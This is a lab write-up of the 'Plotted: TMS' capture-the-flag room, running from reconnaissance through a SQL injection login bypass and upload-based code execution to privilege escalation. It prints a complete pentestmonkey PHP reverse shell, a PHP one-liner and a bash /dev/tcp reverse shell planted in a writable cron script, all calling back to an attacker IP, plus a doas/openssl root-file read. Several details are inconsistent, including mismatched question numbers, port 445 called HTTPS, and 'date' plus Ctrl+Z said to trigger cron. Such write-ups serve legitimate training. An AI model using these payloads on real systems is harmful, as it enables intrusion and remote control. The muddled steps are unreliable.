


# 🎯 Plotted: TMS — Complete Walkthrough

<div align="center">

## 🔓 Capturing the Flags


*A comprehensive journey through reconnaissance, SQL injection, file upload vulnerabilities, privilege escalation, and SUID binary exploitation.*

</div>

---

## 📌 Question 1 & 2: Initial Reconnaissance & SQL Injection

### 🔍 Step 1: Initial Reconnaissance

After obtaining the room IP and navigating to it in a browser, I encountered the **default Apache landing page** — a common starting point for web penetration testing.


### 🛠️ Network Enumeration Using Nmap

I conducted a comprehensive network scan and directory enumeration to discover active services and hidden endpoints:

**Directory Enumeration Results:**

- `[17:31:20] 301 -  312B  - /admin  ->  http://10.48.155.74/admin/`
- `[17:31:21] 200 -  453B  - /admin/`
- `[17:32:00] 200 -   25B  - /passwd`

**Complete Nmap Scan Results:**

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-27 17:30 +0530
Nmap scan report for 10.48.155.74
Host is up (0.062s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a3:6a:9c:b1:12:60:b2:72:13:09:84:cc:38:73:44:4f (RSA)
|   256 b9:3f:84:00:f4:d1:fd:c8:e7:8d:98:03:38:74:a1:4d (ECDSA)
|_  256 d0:86:51:60:69:46:b2:e1:39:43:90:97:a6:af:96:93 (ED25519)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
445/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.99%E=4%D=5/27%OT=22%CT=1%CU=42278%PV=Y%DS=3%DC=T%G=Y%TM=6A16DD3
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10B%TI=Z%CI=Z%TS=A)SEQ(SP=1
OS:05%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=107%GCD=1%ISR=108%TI=Z%CI=Z%
OS:II=I%TS=A)SEQ(SP=107%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=107%GCD=1%
OS:ISR=10D%TI=Z%CI=Z%TS=A)OPS(O1=M4E8ST11NW7%O2=M4E8ST11NW7%O3=M4E8NNT11NW7
OS:%O4=M4E8ST11NW7%O5=M4E8ST11NW7%O6=M4E8ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W
OS:4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M4E8NNSNW7%CC=Y%Q=)T1(
OS:R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S
OS:=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=
AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%
RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 3 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
```

### 🔐 Decoding Hidden Messages

Accessing the `/admin` endpoint revealed an `id_rsa` file, but it turned out to be **Base64-encoded trickery** rather than an SSH key:

**First Layer:**
```
VHJ1c3QgbWUgaXQgaXMgbm90IHRoaXMgZWFzeSA6RA==
```

**Decoded Output:**
```
Trust me it is not this easy..now get back to enumeration :D
```

**Second Layer (from `/admin/` endpoint):**
```
bm90IHRoaXMgZWFzeSA6RA==
```

**Decoded Output:**
```
not this easy :D
```

> 💡 **Key Observation:** The nmap scan revealed port 445 was open with an HTTP service (Apache), not the expected SMB protocol. This is unusual and worth investigating!

### 🔎 Discovering the Management Panel

After analyzing the nmap results, I noticed port 445 was open. This prompted me to perform directory enumeration on **port 445** (HTTPS):

**Discovery:** `/management` endpoint revealed a **login page**.



---

## 📌 Question 3 & 4: SQL Injection & Authentication Bypass

### 💉 SQL Injection Vulnerability

After accessing the management panel login page, I attempted to log in with incorrect credentials. The browser's **Network tab** revealed something critical — the **response was leaking the SQL query**:

```json
{
  "status": "incorrect",
  "last_qry": "SELECT * from users where username = 'admin' and password = md5('Admin')"
}
```

This is a **severe information disclosure vulnerability**. The application not only was vulnerable to SQL injection but also provided the exact query structure to attackers.

### ⚡ Exploitation: SQL Injection Attack

Using the classic SQL injection technique with comment syntax, I crafted the payload:

**Username:** `admin' -- -`  
**Password:** `anything`

The resulting query became:
```sql
SELECT * from users where username = 'admin' -- -' and password = md5('anything')
```

By using the `-- -` comment sequence, the password check was effectively bypassed, and authentication succeeded! ✅



---

## 📌 Question 5 & 6: File Upload & Remote Code Execution

### 📤 File Upload Functionality Discovery

After successful authentication, I discovered an **image upload functionality** within the management panel. This is a common attack vector for achieving remote code execution (RCE).

### 🧪 Initial Testing: Connectivity Verification

To verify if uploaded files were being executed by the server, I created a test HTML file:

```html

```

**Process:**
1. Set up a simple Python HTTP server on port 5555 to listen for connections
2. Uploaded the HTML file through the management panel
3. **Initial Result:** No connection received from the server

### 🔑 Key Discovery: File Execution via Browser Access

After opening the uploaded file **directly in a new browser tab**, I received a valid hit on my Python server. This revealed that:

- Files are only executed when **directly accessed** through a browser
- Server-side execution requires explicit access to the file
- The `/uploads` directory (or similar) is likely web-accessible

### 🚀 PHP Command Execution

Now confident in the execution environment, I tested with PHP:

```php
<?php echo shell_exec('whoami'); ?>
```

**Result:** `www-data`

Perfect! Command execution was confirmed. The web server was running as the `www-data` user.

### 🔄 Achieving Reverse Shell

After testing multiple PHP reverse shell payloads, two methods successfully granted me a reverse shell:

**Method 1: Direct Socket Connection**
```php
php -r '$sock=fsockopen("192.168.246.164",4444);exec("sh <&3 >&3 2>&3");'
```

**Method 2: Full-Featured Reverse Shell (Recommended)**
```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.246.164';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

**Listener Setup:**
```bash
nc -lvnp 4444
```

✅ **Success!** After uploading and accessing the PHP file in a new browser tab, an instant shell connection was established on the listener.

> 📌 **Pro Tip:** If you don't receive the shell immediately, ensure you open the file in a new browser tab. It's mandatory to open the first payload directly to trigger execution.

---

## 📌 Question 7 & 8: Local Privilege Escalation & User Discovery

### 🔍 Initial Enumeration Within the Shell

After gaining shell access as `www-data`, I began exploring the file system:

```bash
cat /etc/passwd | grep "sh$"
```

**Users Discovered:**
- `ubuntu` - accessible
- `plot_admin` - permission denied for home directory access

### 🖥️ Upgrading to Interactive TTY

The initial shell was non-interactive, making operations difficult. I upgraded it to a full TTY terminal:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This dramatically improved shell usability for further exploitation.

### 📂 Critical Discovery: Configuration Files

While exploring `/var/www/html/445/management`, I discovered a crucial file: `initialize.php`

**Key Information Extracted:**
- MySQL database credentials
- Database name and structure
- User information

### 🗄️ MySQL Database Reconnaissance

Despite MySQL not appearing in the nmap scan results, it was accessible locally from within the shell. This is a common configuration — MySQL often runs on localhost only.

**Connection Command:**
```bash
mysql -u tms_user -p
```

**Databases:**
```sql
show databases;
```

**Output:**
```
+--------------------+
| Database           |
+--------------------+
| information_schema |
| tms_db             |
+--------------------+
2 rows in set (0.01 sec)
```

**Tables in tms_db:**
```sql
show tables;
```

**Output:**
```
+------------------+
| Tables_in_tms_db |
+------------------+
| drivers_list     |
| drivers_meta     |
| offense_items    |
| offense_list     |
| offenses         |
| system_info      |
| users            |
+------------------+
7 rows in set (0.00 sec)
```

> 💭 **Note:** While the MySQL database contained interesting tables, none directly provided the credentials needed for further privilege escalation. The real key lay elsewhere in the filesystem.

---

## 📌 Question 9 & 10: Cron Job Manipulation & Privilege Escalation to Root

### 🔄 Finding the Privilege Escalation Vector: Cron Jobs

Continuing my filesystem exploration, I discovered a file that became the critical vector for privilege escalation: a writable cron job script at `/var/www/scripts/backup.sh`

### ✏️ Exploiting Writable Cron Script

**Current Permissions:**
```bash
ls -la /var/www/scripts/backup.sh
-rwxrwxrwx 1 www-data www-data ... backup.sh
```

The script was world-writable! This meant I could inject a reverse shell payload into it:

**Exploitation Command:**
```bash
cd /var/www/scripts && printf '#!/bin/bash\nbash -c "bash -i >& /dev/tcp/192.168.246.164/4444 0>&1"' > backup.sh && chmod +x backup.sh
```

### ⏰ Triggering Execution via Cron

After modifying the backup script, I needed to trigger the cron job execution. The timing was controlled by the system cron scheduler. To force execution and detach from the current shell session:

```bash
date
# ... (triggers cron job evaluation)
# Ctrl+Z to suspend and background the current process
```

### 🚀 Reverse Shell as `plot_admin`

Upon cron execution, a reverse shell was established on my listener. However, I was now running as `plot_admin` user (not `www-data`). This was progress!

**Verification:**
```bash
whoami
# output: plot_admin
id
# uid=1001(plot_admin) gid=1001(plot_admin) groups=1001(plot_admin)
```

### 🚩 Flag 1: User Flag

With access as `plot_admin`, I could now read the user flag:

```bash
cat /home/plot_admin/user.txt
```

This flag answers **Question 7**.

---

## 📌 Question 11: SUID Binary Exploitation for Root Access

### 🔐 Finding Dangerous SUID Binaries

To escalate privileges further to root, I searched for potentially dangerous SUID binaries:

```bash
find / -perm -u=s -type f 2>/dev/null
```

### ⚠️ Critical Vulnerability: doas Configuration

Among the results, `/etc/doas.conf` stood out as particularly interesting. The `doas` command is similar to `sudo` but often has different security properties and can be misconfigured.

### 🎯 Exploitation: Reading Root Flag

Using the GTFOBins technique for `openssl`, I could read the root flag by leveraging `doas` privileges:

**Step 1: Set LFILE Variable**
```bash
LFILE=/root/root.txt
```

**Step 2: Execute via doas (as plot_admin)**
```bash
doas -u root openssl enc -in "$LFILE"
```

### 🏁 Root Flag Recovery

The `openssl enc` command, when given a file to encrypt with doas privileges, outputs the file contents. This gave me access to `/root/root.txt` without requiring a full root shell.

**Output:** The complete root flag was displayed, answering **Question 8**.

---

## 🎓 Key Techniques & Lessons Learned

| Technique | Description | Severity |
|-----------|-------------|----------|
| **Port Enumeration** | Discovering hidden services on non-standard ports (445) | 🔴 Critical |
| **Information Disclosure** | SQL query leakage in API responses | 🔴 Critical |
| **SQL Injection** | Comment-based authentication bypass | 🔴 Critical |
| **File Upload RCE** | Unrestricted file upload to web-accessible directory | 🔴 Critical |
| **Cron Job Manipulation** | Writable cron scripts enable privilege escalation | 🔴 Critical |
| **SUID Binary Exploitation** | Misconfigured doas permissions lead to unauthorized reads | 🔴 Critical |

---

## 🛠️ Tools & Commands Reference

### Essential Commands Used:
```bash
# Network Reconnaissance
nmap -sV 10.48.155.74 --top-ports 1000
dirsearch -u http://10.48.155.74 -w /path/to/wordlist

# Reverse Shell Setup
nc -lvnp 4444

# TTY Upgrade
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Database Access
mysql -u tms_user -p
show databases;
show tables;

# Privilege Escalation
find / -perm -u=s -type f 2>/dev/null

# SUID Exploitation
doas -u root openssl enc -in "$LFILE"
```

---

## ✨ Final Thoughts

**Plotted: TMS** is an excellent room for understanding **full-stack web exploitation**, progressing from reconnaissance through privilege escalation. The vulnerability chain demonstrates how seemingly minor information disclosures (SQL query leakage) can cascade into complete system compromise.

The room teaches:
- ✅ Importance of thorough reconnaissance
- ✅ Dangers of information disclosure
- ✅ Web application security best practices
- ✅ Linux privilege escalation techniques
- ✅ File system hardening principles

**Remember:** Always think about the broader implications of each vulnerability. A small information leak can become the foundation for a critical attack chain.

---

*Happy Hacking! 🎯*
